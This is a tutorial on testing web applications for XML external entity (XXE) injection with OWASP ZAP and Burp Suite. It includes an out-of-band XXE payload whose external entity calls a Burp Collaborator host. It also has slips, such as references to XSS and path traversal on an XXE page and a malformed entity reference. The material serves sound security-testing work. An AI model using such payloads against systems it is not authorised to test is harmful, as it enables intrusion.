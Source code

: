 # XML external entity (XXE) injection

If an attacker attempts to insert an XML document into an application, this is known as XML Injection.
The programmer opens the door for attackers to provide unexpected, unreasonable, or malicious input by accepting an XML document without validating it against a DTD or XML schema.

## Owasp ZAP

OWASP ZAP (short for Zed Attack Proxy) is an open-source web application security scanner. ZAP can be defined as a “man-in-the-middle proxy.” It stands between the tester’s browser and the web application so that it can intercept and inspect messages sent between browser and web application, modify the contents if needed, and then forward those packets on to the destination. It can be used as a stand-alone application, and as a daemon process. This scanner claims to test against Path Transversal Vulnerability.

To install and run this scanner the user needs to go to https://www.zaproxy.org/download/ and select the system in which this tool will be installed. This scanner requires Java 8 +.

After installation the application will ask the user if the tester wants to persist the ZAP session. By default, ZAP sessions are always recorded to disk in a HSQLDB database with a default name and location. If you do not persist the session, those files are deleted when you exit ZAP.

To automatically test against Reflected XSS only needed to do the following:
* Click in the Quick Start Tab;
* Click on New Scan;
* In "Starting Point" click in the "Select" Button and choose a POST request to start on;
* Go to "Input Vectors" and check all boxes;
* Click on Start Scan;
* When the load bar is at 100% click on the "Alerts" tab.

If the system is vulnerable to XXE Injection it will appear in the Alerts tab after the scan.


## Burp Suite

Burp Suite is a software developed in Java by PortSwigger, to perform security tests on web applications. Burp Suite is divided into several components such has: Burp Proxy, Burp Spider, Burp Scanner, Burp Intruder, Burp Repeater. etc.
To download this tool the user needs to access https://portswigger.net/burp/communitydownload and download the program to their respective system.


To begin the testing with this tool the tester needs to config their browser's proxy configuration to "localhost" in port 8080.


To test the SUT the tester needs:

* Open the burp suite, go to the "Proxy" tab, click on "Intercept" and press the button "Intercept is off";
* Go to the browser and open the web page to be tested;

* Return to the "Proxy" tab, select intersect and then click on "Intercept is on";

* Access the URL with the parameter you wish to test;

* The request will be captured by the proxy "Intercept" tab;

* Right click anywhere on the request and select "Send to Repeater";

* Select the "Repeater" tab;

* Click the "Go" button;

* In the "Response" Panel you can observe the results of the request;

*  Imagining the XML in the response is something like this:

``` XML
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        381
    </productId>
</stockCheck> 
```

* The tester should insert the following XML line:

``` XML
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http:// your-sub-domain.burpcollaborator.act"> ]> 
```

* To get the Burp Collaborator URL the tester should click on the "Burp" tab and select "Burp Collaborator Client";

* A window will open and the tester will have the option to configure the collaborator. After the configuration click on the "Copy to clipboard" button;

* Paste the copied domain where it is written "your-sub-domain";

* Call the external entity (xxe) in the code, it should look something like this:

``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http:// your-sub-domain.burpcollaborator.act"> ]> 
<stockCheck>
    <productId>
        &xxe   
    </productId>
</stockCheck> 
```
* Click on the "Send" button;
* In the response tab it should show an error.
* Return to the collaborator client tab and if you can observe calls to the system the SUT is vulnerable against XXE Injection.